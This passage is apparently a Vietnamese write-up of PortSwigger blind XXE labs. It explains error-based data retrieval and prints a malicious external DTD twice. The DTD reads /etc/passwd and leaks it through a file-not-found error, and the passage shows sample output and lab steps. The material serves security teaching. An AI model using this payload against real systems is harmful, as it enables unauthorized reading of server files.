

Kiểm tra Burp collaborator 



Submit hostname và solve bài lab



Một cách tiếp cận khác để khai thác Blind XXE là kích hoạt một lỗi phân tích XML sao cho thông báo lỗi chứa dữ liệu nhạy cảm mà hacker muốn lấy. Cách này sẽ hiệu quả nếu ứng dụng trả về thông báo lỗi phát sinh trong phản hồi.

Có thể tạo ra một lỗi phân tích XML chứa nội dung của tệp /etc/passwd bằng cách sử dụng một DTD bên ngoài độc hại như sau:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

DTD này thực hiện các bước sau:
- Định nghĩa một XML parameter entity có tên là file, chứa nội dung của tệp /etc/passwd
- Định nghĩa một XML parameter entity khác có tên là eval, chứa một khai báo động của một parameter entity khác tên là error. Entity error sẽ được đánh giá bằng cách tải một tệp không tồn tại, trong đó tên của tệp chứa giá trị của entity file.
- Sử dụng entity eval, khiến cho khai báo động của entity error được thực hiện.
- Sử dụng entity error, làm cho giá trị của nó được đánh giá bằng cách cố gắng tải tệp không tồn tại, từ đó phát sinh một thông báo lỗi, trong đó tên của tệp không tồn tại chính là nội dung của tệp /etc/passwd.

Việc gọi DTD bên ngoài độc hại này sẽ tạo ra một thông báo lỗi tương tự như sau:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Lab 6: Exploiting blind XXE to retrieve data via error messages



Tạo file malicious.dtd với nội dung:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Sau đó copy đường dẫn của file này và chèn vào payload phần xml  trong request check stock




## Tìm bề mặt tấn công ẩn cho việc chèn XXE

Bề mặt tấn công của các lỗ hổng chèn XXE trong nhiều trường hợp là rõ ràng, vì lưu lượng HTTP thông thường của ứng dụng bao gồm các yêu cầu chứa dữ liệu ở định dạng XML. Trong những trường hợp khác, bề mặt tấn công ít dễ nhận thấy hơn. Tuy nhiên, nếu tìm đúng chỗ, sẽ phát hiện bề mặt tấn công XXE trong những yêu cầu không chứa bất kỳ dữ liệu XML nào.